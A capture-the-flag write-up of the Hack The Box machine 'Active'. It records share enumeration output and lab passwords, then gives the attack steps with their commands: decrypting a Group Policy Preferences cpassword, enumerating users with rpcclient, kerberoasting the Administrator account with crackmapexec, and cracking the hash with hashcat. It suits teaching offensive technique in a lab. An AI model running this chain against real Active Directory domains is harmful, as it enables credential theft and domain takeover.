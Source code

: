 ## Info
### Credential
 User             | Password                 | Service | Note
------------------|--------------------------|---------|------
active.htb\SVC_TGS|GPPstillStandingStrong2k18|LDAP     |
Administrator     |Ticketmaster1968          |         |

### System
- hostname: `active.htb`

### DNS
- TCP port is open -> Domain Transfer (X)

### Kerberos

### SMB
**Shares**
```
[*] Testing share ADMIN$
[+] Mapping: DENIED, Listing: N/A
[*] Testing share C$
[+] Mapping: DENIED, Listing: N/A
[*] Testing share IPC$
[+] Mapping: OK, Listing: DENIED
[*] Testing share NETLOGON
[+] Mapping: DENIED, Listing: N/A
[*] Testing share Replication
[+] Mapping: OK, Listing: OK
[*] Testing share SYSVOL
[+] Mapping: DENIED, Listing: N/A
[*] Testing share Users
[+] Mapping: DENIED, Listing: N/A
```

### LDAP


## Path
### User, Root
1. The share `Relpication` is readable. In the share, there are two folders with the UUID as their names.
- default domain policy: `{31B2F340-016D-11D2-945F-00C04FB984F9}`
- default domain controllers policy: `{6AC1786C-016F-11D2-945F-00C04fB984F9}`
```
./Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf
./Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Registry.pol
./Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
./Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI
./Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/Group Policy/GPE.INI
./Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf
./Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI
```
2. According this [article](https://adsecurity.org/?p=2288), the `active.htb` obtained earlier should be in `SYSVOL` share. Thus, we can crack the user `active.htb\SVC_TGS`'s password from `Groups.xml`. Throw it into CyberChef, choose base64 -> AES-CBC with IV=NULL, then get the password `GPPstillStandingStrong2k18`.
```
$ cat Policies/\{31B2F340-016D-11D2-945F-00C04FB984F9\}/MACHINE/Preferences/Groups/Groups.xml
...
userName="active.htb\SVC_TGS"
cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
 
```
3. Logon using `rpcclient` and get all the users.
```
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[SVC_TGS] rid:[0x44f]
```
4. Do kerberoasting and get admin's password hash. Then crack admin's password with `hashcat`.
```
$ cme ldap  -u 'SVC_TGS' -p GPPstillStandingStrong2k18 --kerberoasting kerbroast.cme active.htb
LDAP        10.10.10.100    389    DC               [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
LDAP        10.10.10.100    389    DC               [+] active.htb\SVC_TGS:GPPstillStandingStrong2k18
LDAP        10.10.10.100    389    DC               $krb5tgs$23$*Administrator$ACTIVE.HTB$active/CIFS~445*$9eec1669c83d79bc5875667406319be6$5a097
$ hashcat --force -m 13100  kerbroast.cme /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
```
5. We can logon SMB as admin and get the `user.txt` and `root.txt`.
